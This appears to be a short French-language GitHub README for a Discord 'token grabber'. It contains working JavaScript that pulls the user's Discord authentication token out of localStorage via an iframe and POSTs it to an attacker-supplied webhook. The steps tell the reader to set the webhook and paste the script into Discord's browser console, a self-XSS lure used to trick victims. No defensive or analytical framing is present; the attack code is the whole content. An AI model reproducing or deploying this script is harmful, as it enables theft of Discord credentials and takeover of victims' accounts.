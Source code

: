 # Token-Grabber-Js
Script Token Grabber en NodeJS

1). Complete le script avec un webhook

2). Entrer le script dans la console de discord

```nodejs
location.reload();
var webhook = "";
var token = document.body.appendChild(document.createElement `iframe`).contentWindow.window.localStorage.token;
var request = new XMLHttpRequest();
request.open("POST", webhook);
request.setRequestHeader('content-type', 'application/json');
request.send(JSON.stringify({"content": token}));
```
